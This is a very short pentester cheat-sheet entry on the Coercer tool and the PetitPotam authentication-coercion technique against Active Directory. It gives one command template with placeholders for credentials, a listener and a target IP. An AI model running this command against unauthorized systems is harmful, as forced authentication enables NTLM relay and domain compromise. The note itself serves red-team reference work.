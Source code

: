 
# Coercer

% printerbug, Active directory
#plateform/linux  #target/remote #cat/ATTACK/COERCE 

## Coercer
https://github.com/p0dalirius/Coercer
```
PetitPotam.py -u <user> -p '<password>' -d <domain> -l <listener> -t <target-ip>
```
